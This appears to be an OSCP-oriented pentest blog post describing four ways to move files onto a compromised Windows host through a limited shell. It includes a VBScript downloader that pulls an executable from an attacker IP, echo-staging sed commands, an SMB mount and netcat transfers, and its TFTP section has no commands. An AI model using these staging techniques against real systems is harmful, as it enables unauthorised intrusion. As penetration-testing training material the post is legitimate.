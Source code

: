 ```yaml
---
layout: post
title: "4 Ways to Transfer Files With a Limited Shell"
date: 2017-04-22 08:42:48
image: '/assets/img/'
description: How I transfer files to a windows host with limited shell
tags: oscp HowTo
categories: OSCP
twitter_text: Transfering Files With a Limited Shell
---
```


Commonly during pentests I might be stuck on getting a file over to a system with only a limited shell. To be honest, this problem has mostly occurred to me on Windows so the solutions below will all work on Windows.

# Echo One Line at a Time

The first method is to prefix the “echo” command to the beginning of each line and redirect the output to a file. You would then be able to simply paste the script into the limited shell and your file will be transferred. This method would really only be useful to transfer ASCII only files. However, you would be able to transfer a vbscript of PowerShell file to the victim and then use that to download the actual file.

For example, the following script:

```VB.net
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.0.0.100/file.exe", False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\admin\Desktop\file.exe", 2 '
end with
```

Would get “echo” prefixed and “>> down.vbs” appended using the following commands:

```bash
sed -i -e 's/$/echo /' down.vbs
sed -i -e 's/$/ \>\> down.vbs/' down.vbs
```

Make sure there are no empty spaces or you will get “ECHO is on.” added into your output. All that is left is to paste your script into your shell and viola! You have transferred a file.

Another option to transfer a non-ascii file is to encode it, transfer it using the echo method, and decode it on the other side but I prefer loading a downloader.

You can also use this method if you have limited RCE through a web application and use Burp’s intruder to run the commands. If you decide to go down this route, make sure that you throttle intruder so that the “echo” commands do not run out of order.

# TFTP

Another other option is to start up a TFTP server and use windows native TFTP client to connect to your server. Note that only Windows XP had tftp enabled by default. Windows Vista to Windows 10 all need to be enabled.
On the server
Set up the folder:
Start the server:
Move your file:
On the Client
Download the file:

# SMB Mount

The next option would be to set up an SMB share on a server (Could be on your kali box or another windows server in the network that has already been compromised). You can mount the SMB share to the Windows victim using the following command:

```bat
net use Z: \\host\share /PERSISTENT:YES
```

# Netcat

This one is the classic use of the nc command. Obviously, this would only work if you already have nc or ncat installed on the windows host, but hey, maybe you got lucky. 
On the host you are trying to transfer to run:

```bash
nc –l –p 3000 > file_name
```
On the host you are trying to transfer from run:

```bash
nc ipOrHostname 3000 < file_name
```
